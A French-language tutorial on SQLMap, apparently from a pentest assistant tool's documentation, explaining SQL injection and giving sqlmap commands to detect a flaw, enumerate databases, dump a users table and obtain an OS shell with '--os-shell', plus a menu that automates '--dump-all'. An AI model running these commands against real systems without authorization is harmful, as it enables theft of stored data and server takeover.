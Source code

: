 # Tutoriel : SQLMap

SQLMap est l'outil de référence pour tout ce qui concerne l'injection SQL. C'est un programme open source qui automatise le processus de détection, d'exploitation des failles d'injection SQL et de prise de contrôle des serveurs de bases de données.

---

## Qu'est-ce qu'une Injection SQL ?

C'est une vulnérabilité qui permet à un attaquant d'interférer avec les requêtes qu'une application fait à sa base de données. Une exploitation réussie peut permettre de lire des données sensibles, de modifier des données, et parfois même d'exécuter des commandes sur le serveur.

SQLMap automatise ce processus, qui serait autrement long et fastidieux.

---

## Utilisation et Exemples

Tout commence par une URL avec des paramètres, typiquement une page qui semble charger du contenu depuis une base de données (ex: `products.php?id=5`).

### Étape 1 : Détection

```bash
# Teste si le paramètre 'id' dans l'URL est vulnérable
sqlmap -u "http://<IP_CIBLE>/vuln.php?id=1"
```

- `-u` : L'URL à tester. **Il est crucial de mettre l'URL entre guillemets** pour éviter les erreurs d'interprétation par le shell.
- `--batch` : SQLMap pose beaucoup de questions. `--batch` répond "oui" à tout, ce qui est pratique pour l'automatisation.

### Étape 2 : Énumération

Une fois la faille confirmée, on explore la base de données.

```bash
# Lister toutes les bases de données
sqlmap -u "..." --dbs

# Lister les tables d'une base de données spécifique
sqlmap -u "..." -D nom_de_la_db --tables

# Lister les colonnes d'une table spécifique
sqlmap -u "..." -D nom_de_la_db -T nom_de_la_table --columns
```

### Étape 3 : Extraction (Dump)

Maintenant, on récupère les données.

```bash
# Extraire le contenu d'une table
sqlmap -u "..." -D nom_de_la_db -T utilisateurs --dump
```

### Étape 4 : Gagner un Shell (avancé)

Si les conditions le permettent (droits de la base de données, configuration système), SQLMap peut tenter d'obtenir un shell sur le système d'exploitation.

```bash
sqlmap -u "..." --os-shell
```

---

### 💡 L'Aide du Copilote

Le menu `Web > SQL Injection Testing` simplifie grandement l'utilisation de SQLMap.

1.  **Guidage de l'URL :** Le script vous demande l'URL complète à tester et vous donne un exemple basé sur l'IP de la cible pour vous aider à formater la requête.
2.  **Menu d'Actions :** Au lieu de mémoriser les options (`--dbs`, `--dump`), le copilote vous propose un menu simple : "Détection simple", "Énumération des bases de données", "Dump complet".
3.  **Automatisation :** Le script choisit les bonnes options pour vous. Par exemple, pour "Dump complet", il utilise `--dump-all` et `--batch` pour automatiser entièrement le processus.
4.  **Organisation des Résultats :** SQLMap génère beaucoup de fichiers. Le copilote crée automatiquement un dossier de sortie unique et horodaté (`sqlmap_...`) pour chaque session, gardant votre projet propre et organisé.

**Avantage :** Le copilote transforme SQLMap, un outil puissant mais complexe, en un processus guidé en 3 étapes, tout en organisant proprement les résultats pour une analyse ultérieure.
